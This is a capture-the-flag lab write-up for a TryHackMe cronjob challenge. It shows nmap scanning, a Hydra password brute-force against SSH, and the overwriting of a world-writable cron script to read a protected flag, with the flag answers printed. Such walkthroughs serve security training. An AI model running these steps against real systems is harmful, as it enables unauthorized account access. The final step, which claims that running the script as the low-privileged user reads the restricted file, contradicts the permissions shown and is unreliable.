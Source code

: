 # [Day 20] Cronjob Privilege Escalation

## Instructions

You think the evil Christmas monster is acting on Elf Sam's account!

Hack into her account and escalate your privileges on this Linux machine.

*There is no supporting material - the only new concept in this challenge is Linux cronjobs. Join our Discord if you're really struggling.*

## #1 - What port is SSH running on?

*Hint: Use nmap to enumerate services on ports 4000 and 5000.*

Nmap tells us that SSH is running on port `4567`:

~~~
$ sudo nmap -sS -sV -A 10.10.11.225
[sudo] password for unknown: 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-03 23:23 CEST
Nmap scan report for 10.10.11.225
Host is up (0.083s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE VERSION
4567/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 63:11:a1:86:f9:9a:fc:63:bd:14:51:36:43:c0:a3:c8 (RSA)
|   256 40:23:c8:3b:10:46:9d:d6:a6:50:76:3a:85:31:90:e3 (ECDSA)
|_  256 16:7a:b1:83:30:b0:4a:2c:ed:53:38:06:b6:e1:96:96 (ED25519)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=5/3%OT=4567%CT=1%CU=38411%PV=Y%DS=2%DC=T%G=Y%TM=5EAF36
OS:87%P=x86_64-pc-linux-gnu)SEQ(SP=F6%GCD=1%ISR=100%TI=Z%CI=I%II=I%TS=8)SEQ
OS:(SP=F6%GCD=1%ISR=100%TI=Z%II=I%TS=8)OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3
OS:=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11NW6%O6=M508ST11)WIN(W1=68DF%W2=6
OS:8DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW
OS:6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF
OS:=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=
OS:%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=
OS:0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RI
OS:PCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   47.48 ms 10.9.0.1
2   80.32 ms 10.10.11.225

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.81 seconds
~~~


## #2 - Crack sam's password and read flag1.txt

*Hint: Complete the challenge on day 17, to understand how to use Hydra.*

~~~
$ hydra -l sam -P /data/downloads/rockyou.txt ssh://10.10.11.225:4567 -t 4 -V
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-03 23:28:49
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344398 login tries (l:1/p:14344398), ~3586100 tries per task
[DATA] attacking ssh://10.10.11.225:4567/
[ATTEMPT] target 10.10.11.225 - login "sam" - pass "123456" - 1 of 14344398 [child 0] (0/0)
[ATTEMPT] target 10.10.11.225 - login "sam" - pass "12345" - 2 of 14344398 [child 1] (0/0)
[ATTEMPT] target 10.10.11.225 - login "sam" - pass "123456789" - 3 of 14344398 [child 2] (0/0)
[ATTEMPT] target 10.10.11.225 - login "sam" - pass "password" - 4 of 14344398 [child 3] (0/0)
[ATTEMPT] target 10.10.11.225 - login "sam" - pass "iloveyou" - 5 of 14344398 [child 3] (0/0)
[ATTEMPT] target 10.10.11.225 - login "sam" - pass "princess" - 6 of 14344398 [child 1] (0/0)
[ATTEMPT] target 10.10.11.225 - login "sam" - pass "1234567" - 7 of 14344398 [child 0] (0/0)
[ATTEMPT] target 10.10.11.225 - login "sam" - pass "rockyou" - 8 of 14344398 [child 2] (0/0)
[ATTEMPT] target 10.10.11.225 - login "sam" - pass "12345678" - 9 of 14344398 [child 3] (0/0)
[ATTEMPT] target 10.10.11.225 - login "sam" - pass "abc123" - 10 of 14344398 [child 0] (0/0)
[ATTEMPT] target 10.10.11.225 - login "sam" - pass "nicole" - 11 of 14344398 [child 1] (0/0)
[ATTEMPT] target 10.10.11.225 - login "sam" - pass "daniel" - 12 of 14344398 [child 2] (0/0)
[ATTEMPT] target 10.10.11.225 - login "sam" - pass "babygirl" - 13 of 14344398 [child 3] (0/0)
[ATTEMPT] target 10.10.11.225 - login "sam" - pass "monkey" - 14 of 14344398 [child 0] (0/0)
[ATTEMPT] target 10.10.11.225 - login "sam" - pass "lovely" - 15 of 14344398 [child 2] (0/0)
[ATTEMPT] target 10.10.11.225 - login "sam" - pass "jessica" - 16 of 14344398 [child 1] (0/0)
[ATTEMPT] target 10.10.11.225 - login "sam" - pass "654321" - 17 of 14344398 [child 3] (0/0)
[ATTEMPT] target 10.10.11.225 - login "sam" - pass "michael" - 18 of 14344398 [child 0] (0/0)
[ATTEMPT] target 10.10.11.225 - login "sam" - pass "ashley" - 19 of 14344398 [child 1] (0/0)
[ATTEMPT] target 10.10.11.225 - login "sam" - pass "qwerty" - 20 of 14344398 [child 2] (0/0)
[ATTEMPT] target 10.10.11.225 - login "sam" - pass "111111" - 21 of 14344398 [child 3] (0/0)
[ATTEMPT] target 10.10.11.225 - login "sam" - pass "iloveu" - 22 of 14344398 [child 1] (0/0)
[ATTEMPT] target 10.10.11.225 - login "sam" - pass "000000" - 23 of 14344398 [child 2] (0/0)
[ATTEMPT] target 10.10.11.225 - login "sam" - pass "michelle" - 24 of 14344398 [child 0] (0/0)
[ATTEMPT] target 10.10.11.225 - login "sam" - pass "tigger" - 25 of 14344398 [child 3] (0/0)
[ATTEMPT] target 10.10.11.225 - login "sam" - pass "sunshine" - 26 of 14344398 [child 1] (0/0)
[ATTEMPT] target 10.10.11.225 - login "sam" - pass "chocolate" - 27 of 14344398 [child 0] (0/0)
[ATTEMPT] target 10.10.11.225 - login "sam" - pass "password1" - 28 of 14344398 [child 2] (0/0)
[4567][ssh] host: 10.10.11.225   login: sam   password: chocolate
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-03 23:29:40
~~~

Now, we can show the flag:

~~~
$ sshpass -p chocolate ssh sam@10.10.11.225 -p 4567 cat flag1.txt
THM{dec4389bc09669650f3479334532aeab}
~~~

## #3 - Escalate your privileges by taking advantage of a cronjob running every minute. What is flag2?

### Where is the flag?

First thing first was to locate flag2.txt:

~~~
$ find / -name flag2.txt 2>/dev/null
/home/ubuntu/flag2.txt
~~~

Analyzing the file's permissions shows that only `ubuntu` can read the flag:
~~~
$ ls -l /home/ubuntu/flag2.txt 
-r-------- 1 ubuntu ubuntu 38 Dec 19 20:09 /home/ubuntu/flag2.txt
~~~

### Cron jobs

Now, we know that this has something to do with a cron job.

Checking `/etc/cron*` files as well as `crontab` and `crontab -l -u ubuntu` does not reveal anything interesting.

### clean_up script

Now, interestingly, listing all files owned by the `ubuntu` user reveals a script (`clean_up.sh`) in `/home/scripts/`:

~~~
$ find / -user ubuntu 2>/dev/null
/home/scripts/clean_up.sh
/home/ubuntu
/home/ubuntu/.ssh
/home/ubuntu/.profile
/home/ubuntu/.bash_history
/home/ubuntu/.cache
/home/ubuntu/.nano
/home/ubuntu/.sudo_as_admin_successful
/home/ubuntu/.vim
/home/ubuntu/.vim/.netrwhist
/home/ubuntu/flag2.txt
/home/ubuntu/.bashrc
/home/ubuntu/.bash_logout
~~~

Let's see what this is:

~~~
sam@ip-10-10-11-225:/home/scripts$ ls -l
total 8
-rwxrwxrwx 1 ubuntu ubuntu 47 May  4 05:42 clean_up.sh
-rw-r--r-- 1 root   root    5 Dec 19 20:55 test.txt
sam@ip-10-10-11-225:/home/scripts$ cat clean_up.sh 
rm -rf /tmp/*
~~~

This script is actually removing all files in the `/tmp` directory. There is no indication that it is run every minute but we could guess this is our entry point and anyway, as we can execute it, we don't really care!

More interestingly, it is owned by `ubuntu` but the file has all permissions (`777`), meaning read, write, execute for everyone. It means that we can modify and execute it.

### Flag

Let's modify this script to show the flag:

~~~
$ cd /home/scripts/
$ echo "cat /home/ubuntu/flag2.txt" > clean_up.sh
$ ./clean_up.sh
THM{b27d33705f97ba2e1f444ec2da5f5f61}
~~~
